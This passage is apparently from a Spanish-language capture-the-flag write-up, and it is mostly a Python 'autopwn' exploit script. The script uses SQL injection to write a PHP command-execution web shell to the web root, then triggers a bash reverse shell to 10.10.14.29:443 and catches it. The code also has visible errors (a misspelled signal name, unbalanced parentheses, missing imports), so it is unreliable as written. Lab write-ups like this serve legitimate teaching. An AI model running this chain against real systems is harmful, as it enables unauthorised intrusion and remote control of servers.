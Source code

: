 ```python

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

if len(sys.argv != 3:
    log.failure("Uso: %s <ip-address> filename" % sys.argv[0]
    sys.exit(1)

#Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443

def createFile():

    data_post = {
        'username': 'caa',
        'country': """Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/%s-- -""" % (filename)
    }

    r = requests.post(main_url, data=data_post)

def getAccess():
    data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.29/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data=data_post

if __name__ == '__main__':
    createFile()
    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))
    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

 lanzamos el script

```bash
python autopwn.py 10.10.11.116 setenso.php
```

Y ganamos acceso a la maquina. Como usuario www-data podemos leer la flag.
